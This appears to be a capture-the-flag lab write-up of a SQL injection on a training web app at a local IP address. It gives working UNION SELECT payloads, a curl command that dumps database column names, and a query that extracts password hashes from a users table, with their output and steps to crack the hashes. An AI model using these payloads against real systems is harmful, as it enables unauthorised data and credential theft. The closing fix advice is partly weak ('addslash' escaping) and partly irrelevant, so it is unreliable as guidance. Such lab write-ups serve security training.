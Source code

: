 Vulnerability 11
------

we need to put an UNION and 2 parameters to match with 'first name' and 'surname'   
`http://10.11.200.162//?page=member&id=5%20UNION%20SELECT%20NULL,NULL&Submit=Submit`

We got:
```
ID: 5 UNION SELECT NULL,NULL 
First name: Flag
Surname : GetThe
ID: 5 UNION SELECT NULL,NULL 
First name: 
Surname :
```

### Get columns name
Execute `curl "http://10.11.200.162/?page=member&id=5 UNION SELECT table_name,column_name from information_schema.COLUMNS --&Submit=Submit" |  sed  's/<br>/\n/g' | sed 's/<pre>/\n/g' | grep "name:\|Surname"`

We got:
```
[...]
Surname : IS_OLD
First name: INNODB_BUFFER_PAGE_LRU
Surname : FREE_PAGE_CLOCK
First name: db_default
Surname : id
First name: db_default
Surname : username
First name: db_default
Surname : password
First name: users
Surname : user_id
First name: users
Surname : first_name
First name: users
Surname : last_name
First name: users
Surname : town
First name: users
Surname : country
First name: users
Surname : planet
First name: users
Surname : Commentaire
First name: users
Surname : countersign
First name: guestbook
Surname : id_comment
First name: guestbook
Surname : comment
First name: guestbook
Surname : name
First name: list_images
Surname : id
First name: list_images
Surname : url
First name: list_images
Surname : title
First name: list_images
Surname : comment
First name: vote_dbs
Surname : id_vote
```

### Get countersign
Execute: `http://10.11.200.162/?page=member&id=5 UNION SELECT commentaire,countersign from Member_Sql_Injection.users &Submit=Submit`   

We got:
```
ID: 5 UNION SELECT commentaire,countersign from Member_Sql_Injection.users  
First name: Flag
Surname : GetThe
ID: 5 UNION SELECT commentaire,countersign from Member_Sql_Injection.users  
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 5 UNION SELECT commentaire,countersign from Member_Sql_Injection.users  
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 5 UNION SELECT commentaire,countersign from Member_Sql_Injection.users  
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 5 UNION SELECT commentaire,countersign from Member_Sql_Injection.users  
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

We need to MD5 decrypt the password, lower the char and hash256 it !

### Resolv ?
Always user prepared requests, where only field or value can be enter
Always addslash all user input
Remove javascript too
